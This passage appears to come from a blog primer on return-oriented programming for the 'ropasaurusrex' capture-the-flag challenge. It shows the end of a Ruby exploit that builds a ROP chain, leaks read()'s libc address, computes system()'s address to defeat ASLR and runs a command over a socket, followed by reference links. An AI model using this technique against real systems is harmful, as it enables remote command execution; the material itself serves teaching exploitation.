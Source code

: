 ``` ruby
    read_addr_ptr, # address of read()'s .plt entry
    0,           # stdin
    pppr_addr,   # read()'s return address

    # pop/pop/pop/ret's stack frame
    read_addr,

    # write()'s stack frame
    # This frame gets the address of the read() function from the .plt
    # entry and writes to to stdout
    4,           # length of an address
    read_addr_ptr, # address of read()'s .plt entry
    1,           # stdout
    pppr_addr,   # retrurn address

    # pop/pop/pop/ret's stack frame
    write_addr,

    # read()'s stack frame
    # This reads the command we want to run from the socket and puts it
    # in our writable "buf"
    cmd.length,  # number of bytes
    buf,         # writable memory (cmd buf)
    0,           # stdin
    pppr_addr,   # read()'s return address

    read_addr # Overwrite the original return
  ].reverse.pack("I*") # Convert a series of 'ints' to a string

# Write the 'exploit' payload
s.write(payload)

# When our payload calls read() the first time, this is read
s.write(cmd)

# Get the result of the first read() call, which is the actual address of read
this_read_addr = s.read(4).unpack("I").first

# Calculate the address of system()
this_system_addr = this_read_addr - read_system_diff

# Write the address back, where it'll be read() into the correct place by
# the second read() call
s.write([this_system_addr].pack("I"))

# Finally, read the result of the actual command
puts(s.read())

# Clean up
s.close()
```


[SkullSecurity]: https://blog.skullsecurity.org
[Ron Bowes]: https://blog.skullsecurity.org/author/ron
[external-url]: https://blog.skullsecurity.org/2013/ropasaurusrex-a-primer-on-return-oriented-programming
[hindsight]: http://knowyourmeme.com/memes/captain-hindsight
[cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
[ROP]: https://en.wikipedia.org/wiki/Return-oriented_programming
[my writeup of cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[return into libc]: https://en.wikipedia.org/wiki/Return-to-libc_attack
[DEP]: https://en.wikipedia.org/wiki/Data_Execution_Prevention
[return]: https://en.wikipedia.org/wiki/Return_statement
[stack]: https://en.wikipedia.org/wiki/Call_stack
[my assembly tutorial]: https://wiki.skullsecurity.org/index.php/The_Stack
[Stack overflows]: https://en.wikipedia.org/wiki/Stack_overflow
[removed by the calling function]: https://en.wikipedia.org/wiki/X86_calling_conventions#cdecl
[except when they're not]: https://en.wikipedia.org/wiki/X86_calling_conventions#stdcall
[Book of Intel]: http://www.intel.com/content/www/us/en/processors/architectures-software-developer-manuals.html
[little endian]: https://en.wikipedia.org/wiki/Endianness
[0]: https://en.wikipedia.org/wiki/Zero_page
[pattern_create.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_create.rb
[pattern_offset.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_offset.rb
[xinetd]: https://en.wikipedia.org/wiki/Xinetd
[netcat]: https://en.wikipedia.org/wiki/Netcat
[libc]: https://en.wikipedia.org/wiki/C_standard_library
[stdin and stdout]: https://en.wikipedia.org/wiki/Standard_streams
[socket]: https://en.wikipedia.org/wiki/Network_socket
[.data]: https://en.wikipedia.org/wiki/Data_segment
[core dump]: https://en.wikipedia.org/wiki/Core_dump